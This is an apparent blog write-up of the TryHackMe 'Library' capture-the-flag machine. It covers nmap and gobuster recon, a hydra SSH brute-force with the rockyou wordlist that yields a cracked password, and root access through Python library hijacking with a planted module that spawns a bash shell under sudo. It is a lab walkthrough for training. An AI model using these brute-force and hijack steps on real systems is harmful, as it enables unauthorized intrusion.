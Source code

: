```yaml
---
layout: post
title: "[THM] Library Writeup"
date: "2022-03-08"
categories: pentest
---
```


**Library** is a TryHackMe room boot2root machine for FIT and bsides guatemala CTF.

Link: [https://tryhackme.com/room/bsidesgtlibrary](https://tryhackme.com/room/bsidesgtlibrary)

## Recon Phase
### nmap
```bash
root@mirai:~# nmap -T4 -sC -sV -p- --min-rate=1000 10.10.85.187 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-03-08 15:55 HKT
Nmap scan report for 10.10.85.187
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.22 seconds
```

Since port 80 is open, lets do some passive recon on the website.

<!-- ![](/static/img/thm-library-writeup/user1.png)
![](/static/img/thm-library-writeup/user2.png) -->

I listed down all the usernames I found in the website that is important for later use.
1. meliodas
2. root
3. www-data
4. Anonymous

Since there is no other webpages because menu bars is not clickable, lets scan for subdomains.

### gobuster

```bash
root@mirai:~# gobuster dir -u 10.10.85.187 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,txt,html --timeout 50s -t 170 -f
===============================================================
2022/03/08 01:36:48 Starting gobuster in directory enumeration mode
===============================================================
/images/              (Status: 200) [Size: 1640]
/icons/               (Status: 403) [Size: 292]
/index.html           (Status: 200) [Size: 5439]
/robots.txt           (Status: 200) [Size: 33]
```
Opening the `robots.txt` on the browser gives the following text.

![](/static/img/thm-library-writeup/rockyou.png)

"rockyou"??? Seems familiar because there's this famous wordlist named `rockyou.txt`, maybe its a hint for us to bruteforce something?

Lets try to bruteforce the port 22 (SSH) with hydra!

### hydra

```bash
hydra -L meliodas users -P /usr/share/wordlists/rockyou.txt ssh://10.10.85.187 -t 4
```

![](/static/img/thm-library-writeup/hydra.png)


Successfully cracked the credential with a password of `iloveyou1`

Login to the ssh and get the `user.txt` flag!

![](/static/img/thm-library-writeup/user3.png)

---

# Privilege Escalation: meliodas --> root

### python library hijacking 
As you can see when running `sudo -l` we can run the file `/home/meliodas/bak.py` which was owned by `root`.

![](/static/img/thm-library-writeup/sudo.png)

Lets analyze the code since we cannot modify the python file.

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

The code seems not vunerable to any code injection. So, As I am searching python `zipfile` module exploits in google, I came across to this blog post [privilege escalation via python library hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/).

Let's replicate what he did in the blog post.

- Create a file `os.py` in the same directory as `bak.py` and put the contents below.
	```python
	import pty
	pty.spawn('/bin/bash')
	```
- Run this command `sudo /usr/bin/python3 /home/meliodas/bak.py`
	![](/static/img/thm-library-writeup/os.png)

It doesnt work with the python `os` library, lets repeat the same steps with `zipfile` library.

And we are now root!

![](/static/img/thm-library-writeup/root.png)

## Easiest way to gain root

1. Delete the `bak.py` file
2. Create a new one and put the contents below
	```python
	import pty
	pty.spawn('/bin/bash')
	```
	
3. and run it

	![](/static/img/thm-library-writeup/root2.png)

Thank you!